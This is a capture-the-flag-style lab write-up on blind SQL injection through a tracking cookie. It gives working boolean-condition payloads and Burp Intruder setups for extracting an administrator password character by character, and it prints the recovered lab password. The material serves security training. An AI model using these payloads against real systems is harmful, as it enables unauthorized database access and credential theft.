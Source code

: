 # Lab: Blind SQL injection with conditional responses
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Blind SQL injection
We don't have the typical possibility to inject statement like before. The websites uses a cookie `TrackingId` to show the "Welcome back" message at the top of the page:
![Welcome back](images/Blind_SQL_injection_with_conditional_responses_0.png)

From the description we know that this cookie is vulnerable to SQL injection. To make a use of this, we can inject statements in the value of the cookie, that create a conditional return value. If the value is true, the message will be shown. If it's false, it won't.

For example the following value will cause that the message isn't shown anymore:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='2
```

While the following meets the condition again and the message is shown:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='1
```

The serverside created SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' and '1'='2'
```

## Solution
The goal in this lab is to abuse the noted vulnerability to create a conditional statement and "guess" the administrator password over that way. If our guess is true, the "Welcome back" message is shown. If not, it's not shown.

### Information gathering
From the lab description we know that there is a table called 'Users' with an user called 'Administrator'. But if we don't have this information we can examine the database with the following statements. If the statements are true, the welcome message is shown.

Determine if there is a table called 'Users':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users LIMIT 1)='a
```

Check if there is a user called 'Administrator':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Guess the password length by increasing the number behind the '>':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
This can be done either by manually changing the number or using Burp Intruder to automate things up. The Intruder can be configured like the following:
| Positions | Payloads | Settings | Results |
| --------- | -------- | -------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_0.png) | ![Payloads](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_1.png) | ![Settings](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_2.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_length_3.png) |

In the results we see that the response for `LENGTH(password)>20)='a` won't give the welcome message. So our password is 20 characters long.

### Payload (Sniper)
Using the same approach, we can test the password character wise for matching to specific characters. From the description we know that only lowercase and alphanumeric are used. Because Burp CE has no predefined lists for Intruder, you can either create a list with the character sets and imported it or use the _Brute Forcer_ payload type. The statement we will use looks like the following:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

The corresponding SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
```

Intruder will iterate the character through the given list. If there is a match, we will check the next char by adjusting the payload:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

The configuration of Intruder looks like the following:
| Positions | Payloads | Results |
| --------- | -------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_0.png) | ![Payloads](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_1.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_sniper_2.png) |

We will find the password of the administrator: `6718hmev95qbvnbglc8o`

Logging in with those credentials solves this lab.

### Payload (Cluster Bomb)
With Burp Intruder we can automate the previous step further. With the attack type _Cluster Bomb_ we can save us the part of adjusting the statement manually.

To do so we set the type to _Cluster Bomb_ and use the following statement:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

For the first sector we use the payload type _Numbers_ and for the second the type _Brute Forcer_:
| Positions | Payload Numbers | Payload Brute Forcer | Results |
| --------- | --------------- | -------------------- | ------- |
| ![Positions](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_0.png) | ![Payload Numbers](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_1.png) | ![Payload Brute Forcer](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_2.png) | ![Results](images/Blind_SQL_injection_Burp_Intruder/Blind_SQL_injection_Burp_Intruder_char_cluster_3.png) |

This setup will test for every position of the password every character from the set. Sorting or filtering the results will show us the correct character for each position.

_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._
